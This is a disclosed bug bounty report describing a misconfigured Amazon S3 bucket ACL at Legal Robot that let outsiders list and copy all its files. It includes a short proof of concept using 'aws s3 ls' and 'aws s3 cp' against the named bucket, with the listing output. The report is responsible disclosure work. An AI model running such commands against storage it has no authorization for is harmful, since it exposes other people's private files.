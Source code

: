 # S3 ACL misconfiguration

## Report Details
- **Report ID**: 189023
- **URL**: https://hackerone.com/reports/189023
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-12-07T01:51:29.130Z
- **Disclosed**: 2017-08-29T03:19:52.604Z

## Reporter
- **Username**: baseballislife
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: legalrobot

## Vulnerability Information
**Summary**:

Legal Robot's s3 bucket [**legalrobot.com**] is misconfigured. The ACL allows me to _access_ and _copy_ **all files**. This means that I could go through and copy all the media files on the s3 bucket.  I did not attempt to _delete_ any files as I did not want to go too far and affect your operations.

**Steps to Reproduce**:

1) Generate a random AWS key from the AWS Console
2) Perform the following proof-of-concept:
```
$ aws s3 ls s3://legalrobot
                      PRE email/
                      PRE video/
2015-12-28 21:39:20    536901 Dan-sq-gray.jpg
2015-12-28 21:39:21     546125 Dan-sq.jpg
2015-10-06 21:35:54     363060 Gizmo-Foldable.pdf
2016-02-26 12:37:45      22945 Megan.jpg
2015-12-08 01:58:52     420926 logo_huge.png
2015-12-08 01:59:04      14714 logo_text_huge.png

copy: aws s3 cp s3://legalrobot/video/meeting-room/MP4/Meeting-Room.mp4
```
I've noticed that this particular video file is being played in the background of your homepage. 

**Remediation**:

Update your ACL to the proper configuration, preventing other users' from potentially modifying or accessing your s3 bucket. 


## Attachments
No attachments
